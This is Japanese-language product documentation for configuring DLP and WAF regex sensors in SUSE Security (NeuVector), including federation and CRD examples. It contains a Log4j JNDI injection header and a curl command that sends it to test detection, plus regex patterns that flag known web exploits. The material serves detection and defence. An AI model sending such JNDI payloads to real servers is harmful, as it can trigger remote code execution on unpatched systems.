

DLPおよびWAFセンサー
データ損失防止（DLP）およびウェブアプリケーションファイアウォール（WAF）
DLPおよびWAFは、SUSE® Securityのディープパケットインスペクション（DPI）を使用して、接続のネットワークペイロードを検査し、機密データの違反を検出します。SUSE® Securityは、パケットフィルタリング機能を実行するために正規表現（regex）ベースのエンジンを使用します。センサーをコンテナトラフィックに適用する際は、フィルタリング機能が追加のシステムオーバーヘッドを引き起こし、ホストのパフォーマンスに影響を与える可能性があるため、極めて注意が必要です。
DLPおよびWAFのフィルタリングは、適用されるグループによって異なります。一般的に、WAFフィルタリングは、内部トラフィックを除くすべての受信および送信接続に適用され、内部トラフィックには受信フィルタリングのみが適用されます。DLPフィルタリングは「セキュリティドメイン」からの受信および送信接続に適用されますが、セキュリティドメイン内の内部接続には適用されません。以下の詳細な説明を参照してください。
DLPまたはWAFの設定は、2段階のプロセスです：
-
ヘッダー、URL、または全パケットに一致するために使用される正規表現のセットであるセンサーを定義し、テストします。
-
ポリシー→グループ画面で、希望するセンサーをグループに適用します。
WAFセンサー
WAFセンサーは、ポッド/コンテナへのネットワークトラフィックの検査を表します。これらのセンサーは、カスタムグループ（例：ネームスペースグループ）を含む、適用可能な任意のグループに適用できます。グループ内のすべてのコンテナへの受信トラフィックは、WAFルールの検出のために検査されます。さらに、クラスター外部へのすべての送信（イーグレス）接続も検査されます。
これは、この機能がWAFと呼ばれているにもかかわらず、ウェブアプリケーショントラフィックだけでなく、あらゆるネットワークトラフィックに対して有用で適用可能であり、したがって単純なWAFよりも広範な保護を提供することを意味します。例えば、APIセキュリティは外部APIサービスへの送信接続に対して強制され、GETリクエストのみを許可し、POSTリクエストをブロックします。
また、DLPに似ていますが、検査はグループ内のすべてのポッド/コンテナへの着信トラフィックに対して行われ、DLPはグループからの着信および発信トラフィック（すなわちセキュリティ境界）にのみ検査を適用し、グループ内の内部トラフィック（例：グループのコンテナ内の東西トラフィック）には適用されないことに注意してください。

DLPセンサー
DLPセンサーは、トラフィックを検査するために使用されるパターンです。クレジットカードや米国社会保障番号などのビルトインセンサーには、事前定義された正規表現があります。そのセンサーで使用するパターンを定義することにより、カスタムセンサーを追加できます。WAFに似ていますが、DLPはグループからの着信および発信トラフィック（すなわちセキュリティ境界）にのみ検査を適用し、グループ内の内部トラフィック（例：グループのコンテナ内の東西トラフィック）には適用されないことに注意してください。WAF検査は、グループ内のすべてのポッド/コンテナへの着信トラフィックのみに適用されます。

DLPおよびWAFセンサーの設定
DLPおよびWAFセンサーの設定は似ています。センサー名と任意のコメントを作成し、その後、センサーを選択してそのセンサーのルールを追加または編集します。主要なフィールドには次のものが含まれます：
-
持っている/持っていない。一致がパターンを見つける必要があるか（持っている）、またはパターンが存在しない場合（持っていない）のみアクションを実行するか（例：拒否）を決定します。「持っていない」演算子は、「持っている」演算子を使用したパターンとルール内で組み合わせることをお勧めします。なぜなら、「持っていない」演算子を持つ単一のパターンは効果的ではないからです。
-
パターン。これは、一致を決定するために使用される正規表現です。サンプルデータに対して正規表現をテストして、正しい持っている/持っていないの結果を確認できます。
-
コンテキスト。パターンマッチを探す場所。ネットワーク接続全体の最も広範な検査のためにパケットを選択するか、URL、ヘッダー、またはボディのみに検査を絞り込みます。

各DLP/WAFルールは複数のパターンをサポートしています（ルールごとに最大16パターンが許可されています）。複数のパターンとルールコンテキストの設定も、誤検知を減らすのに役立ちます。
Have/Not Haveパターンを持つDLPルールの例： 持っている：
\b3[47]\d{2}([ -]?)(?!(\d)\2{5}|123456|234567|345678)\d{6}\1(?!(\d)\3{4}|12345|56789)\d{5}\bこれは「istio_agent_go_gc_duration_seconds_sum 22.378386247999998」に対して誤検知を引き起こします：
docker exec -ti httpclient sh
/ # curl -d "{\"context\": \"istio_agent_go_gc_duration_seconds_sum 22.378386247999998\"}" 172.17.0.5:8080/
Hello, world!Not Haveパターンを追加すると、誤検知が除去されます：
istio\_(\w){5}センサーは効果を発揮するためにグループに適用する必要があります。
フェデレーテッドDLPおよびWAFセンサーの設定
これは、フェデレーテッドDLPまたはWAFセンサーを設定するための一般的な処理です。
-
プライマリクラスター → フェデレーテッドポリシー → DLPセンサーまたはWAFセンサータブで、ヘッダー、URL、または全パケットに一致する正規表現のセットであるフェデレーテッドDLP/WAFセンサーを定義し、テストします。
-
フェデレーテッドポリシー → グループタブ内のカスタムフェデレーテッドグループに希望のセンサーを適用します。
-
フェデレーテッドDLP/WAFセンサーが管理クラスターに同期され、期待通りに機能していることを確認します。
例
プライマリクラスター内でフェデレーテッドDLP/WAFセンサーを定義し、それをカスタムフェデレーテッドグループに適用し、これらのセンサーがすべての管理クラスターに適用されていることを確認します。
手順。
-
関連するDLPセンサーまたはWAFセンサータブで、プライマリクラスターにフェデレーテッドDLP/WAFセンサーを定義します。


-
フェデレーテッドポリシー → グループタブ内のカスタムフェデレーテッドグループにフェデレーテッドDLP/WAFセンサーを適用します。

-
フェデレーテッドDLP/WAFセンサーが管理クラスターに同期されていることを確認してください。


-
管理クラスター内では、コンテナがフェデレーテッドDLP/WAFセンサーのパターンに一致するトラフィックを送信します。

-
ステップ4の後、DLP/WAF「セキュリティイベント」通知が生成されます。

コンテナグループにDLP/WAFセンサーを適用する
DLPまたはWAFセンサーを有効にするには、ポリシー→グループに移動し、希望するグループを選択してください。グループに対してDLP/WAFを有効にし、センサーを追加します。
DLPセンサーは、グループによって定義されたセキュリティゾーンの境界に適用することをお勧めします。これにより、DLP検査の影響を最小限に抑えることができます。必要に応じて、そのようなセキュリティゾーンを表すカスタムグループを定義してください。 例えば、選択したグループが予約されたグループ「コンテナ」であり、DLPセンサーがそのグループに追加された場合、クラスターの出入りのトラフィックのみが検査され、すべてのコンテナ間のトラフィックは検査されません。また、'namespace=demo’として定義されたカスタムグループの場合、デモネームスペースの出入りのトラフィックのみが検査され、ネームスペース内のコンテナ間のトラフィックは検査されません。
WAFセンサーは、受信（例：インバウンド）接続が期待されるグループにのみ適用することをお勧めします。ただし、センサーが特定の内部アプリケーションに適用される場合（東西トラフィックを期待する場合）を除きます。

DLP/WAF動作概要
-
同じDLPグループに属するワークロード間で通過するトラフィックに対してDLPパターンマッチングは行われません。
-
DLPグループの出入りのトラフィックは、パターンマッチングのためにスキャンされます。
-
クラスターのインバウンドおよびアウトバウンドトラフィックは、ワークロードがインバウンド/アウトバウンド接続を許可されている場合、パターンマッチングのためにスキャンされます。
-
DLP/WAFルールごとに複数のパターン（ルールごとに最大16パターンが許可されています）。
-
複数のルールに一致する場合、単一のパケットに対して複数のアラートが生成されます。
-
パフォーマンスの理由から、パケットが16以上のルールに一致しても、最初の16ルールのみがアラートされ、一致します。
-
同じルールが2秒以内に複数回一致した場合、アラートは集約されて一緒に報告されます。
-
パターンマッチングにはPCREが使用されます。
-
効率的でスケーラブルかつ高性能なパターンマッチングのために、ハイパースキャンライブラリが使用されます。
発見、監視、保護モードにおけるDLP/WAFアクション
センサーをグループに追加する際、DLP/WAFアクションはアラートまたは拒否に設定でき、一致した場合の動作は以下の通りです：
-
発見モード。アクションは常にアラートとなり、設定がアラート/拒否であっても変わりません。
-
監視モード。アクションは常にアラートとなり、設定がアラート/拒否であっても変わりません。
-
保護モード。アラートに設定されている場合はアラートが行われ、拒否に設定されている場合はブロックされます。
Log4j検出WAFパターン
Log4jの試みられた悪用を検出するためのWAFのようなルールは以下の通りです。これは、着信Web接続を期待するグループにのみ適用されるべきであることに注意してください。
\$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*また、攻撃者がそのようなルールによる検出を回避する方法があることにも注意してください。
Log4j WAF検出のテスト
試みられた悪用において、攻撃者は初期のjndi:挿入を構築し、User-Agent HTTPヘッダーに含めます：
User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}curlを使用してサーバー（コンテナ）にデータをPOSTすることで、WAFルールをテストするのに役立ちます：
curl -X POST -k -H "X-Auth-Token: $_TOKEN_" -H "Content-Type: application/json" -H "User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}" -d '$SOME_DATA' "http://$SOME_IP_:$PORT"


インポート/エクスポートまたはCRDを使用したWAFルールの管理
WAF画面からWAFルールをインポートまたはエクスポートすることが可能です。これにより、他のクラスターにルールを伝播させたり、バックアップを作成したり、CRDとして適用するために準備したりすることができます。
CRDを使用してWAFセンサーを作成したり、グループにWAFセンサーを適用したりするためには、適切なNVWafSecurityRuleクラスター役割バインディングが作成されていることを確認してください。
サンプルWAFセンサーCRD
詳しくは、ここをクリックしてください。
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
kind: NvWafSecurityRule
metadata:
name: sensor.execution
spec:
sensor:
comment: arbitrary command execution attempt
name: sensor.execution
rules:
- name: Alchemy
patterns:
- context: url
key: pattern
op: regex
value: \/NUL\/.*\.\.\/\.\.\/
- name: Log4j
patterns:
- context: header
key: pattern
op: regex
value: \$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
- name: formmail
patterns:
- context: url
key: pattern
op: regex
value: \/formmail
- context: packet
key: pattern
op: regex
value: \x0a
- name: CCBill
patterns:
- context: url
key: pattern
op: regex
value: \/whereami\.cgi?.*g=
- name: DotNetNuke
patterns:
- context: url
key: pattern
op: regex
value: \/Install\/InstallWizard.aspx.*executeinstall
- name: HNAP
patterns:
- context: url
key: pattern
op: regex
value: \/tmUnblock.cgi
- context: header
key: pattern
op: regex
value: 'Authorization: Basic\s*YWRtaW46'
- name: Magento
patterns:
- context: url
key: pattern
op: regex
value: \/Adminhtml_.*forwarded=
- name: b2
patterns:
- context: url
key: pattern
op: regex
value: \/b2\/b2-include\/.*b2inc.*http\x3a\/\/
- name: bat
patterns:
- context: url
key: pattern
op: regex
value: x2ebat\x22.*?\x26
- name: eshop.pl
patterns:
- context: url
key: pattern
op: regex
value: \/eshop\.pl?.*seite=\x3b
- name: whois_raw.cgi
patterns:
- context: url
key: pattern
op: regex
value: \/whois_raw\.cgi?
- context: packet
key: pattern
op: regex
value: \x0a
kind: List
metadata: nullグループにWAFセンサーを適用するためのサンプルCRD
詳しくは、ここをクリックしてください。
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
kind: NvSecurityRule
metadata:
name: demo-group
namespace: demo
spec:
egress: []
file: []
ingress: []
process: []
process_profile:
baseline: default
target:
policymode: N/A
selector:
comment: ""
criteria:
- key: domain
op: =
value: demo
- key: service
op: =
value: nginx-pod.demo
- key: service
op: =
value: node-pod.demo
name: demo-group
original_name: ""
waf:
settings:
- action: deny
name: sensor.cross
- action: deny
name: sensor.execution
- action: deny
name: sensor.injection
- action: deny
name: sensor.traversal
- action: deny
name: wafsensor-1
status: true
kind: List
metadata: nullCRDに関する詳細については、CRDセクションを参照してください。